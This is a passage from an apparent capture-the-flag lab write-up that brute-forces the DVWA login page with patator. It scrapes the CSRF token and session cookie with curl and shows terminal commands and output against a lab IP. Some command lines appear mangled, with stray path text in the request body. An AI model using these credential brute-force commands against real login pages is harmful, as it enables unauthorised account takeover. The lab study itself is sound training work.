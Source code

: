 ```

-x quit:fgrep!=login.php

  

"username=admin&password=FILE0&Login=Login&user_token=${CSRF}" header="Cookie: PHPSESSID=${SESSIONID}; security=impossible" -x quit:fgrep!=login.php

```
  

  
  

  
N.B. If you find that when you run the above, you get errors about k,v pairs try changing the script so that the patator command is all on one line. Like this:  

patator http_fuzz method=POST --threads=64 timeout=10 url="http://${IP}/login.php" 0=passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=${CSRF}/login.php header="Cookie: PHPSESSID=${SESSIONID}; security=impossible" -x quit:fgrep!=login.php

When you run this script, you might notice something - When it stops, it's not easy to tell which password is actually the correct one. We can filter out all the wrong passwords using the -x ignore: action. The syntax and format are basically the same as the quit action. So all you need to do is test and adjust... I've even made the correct command the answer to Question 1. So if you get that right, you know you're good to go. If you get stuck, think about what text is in the response if the result was incorrect. We can ignore those responses and not print them to the screen.  

Add the -x ignore: action to the end of your existing patator command (right after the quit action), and the only result you'll get will be the admin password!

Answer the questions below

```
┌──(kali㉿kali)-[~/nappy/brutus]
└─$ IP=10.10.101.155

CSRF=$(curl -s -c dvwa.cookie "${IP}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)

SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

echo "The CSRF is: $CSRF"

echo "The PHPSESSID is: $SESSIONID"
The CSRF is: b7c6ba72c6648a4e5c1984c7d4002d5c
The PHPSESSID is: 2rhl30of3k02991eq3abftv2sm


┌──(kali㉿kali)-[~/Downloads]
└─$ nano user_bruteforce.txt               
                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ cat user_bruteforce.txt 
admin

patator http_fuzz method=POST --threads=64 timeout=10 url="http://10.10.101.155/login.php" 0=/home/kali/Downloads/passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=b7c6ba72c6648a4e5c1984c7d4002d5c/login.php" header="Cookie: PHPSESSID=2rhl30of3k02991eq3abftv2sm; security=impossible" -x ignore:fgrep!='Location:login.php'

or

┌──(kali㉿kali)-[~/Downloads]
└─$ CSRF=$(curl -s -c dvwa.cookie "http://10.10.101.155/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')
```